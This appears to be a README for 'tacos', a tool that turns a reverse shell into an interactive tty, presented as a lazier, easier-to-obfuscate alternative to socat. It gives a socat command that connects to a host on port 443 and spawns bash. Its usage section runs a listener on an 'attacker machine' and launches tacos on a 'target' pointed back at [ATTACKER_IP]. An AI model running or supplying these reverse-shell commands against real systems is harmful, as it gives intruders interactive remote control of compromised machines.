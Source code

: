 # tacos
<sup>(reverse `socat`)</sup>

Spawn a tty in your reverse shell to automaticcaly make it interactive.

Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:10.0.2.15:443,verify=0
```
**Why ?**
* too lazy to copy/paste/learn socat command
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform (to do) 


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
./socat-multi-handler.sh --lhost [ATTACKER_IP] --lport 443 --webport 80

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]
# 💥
```
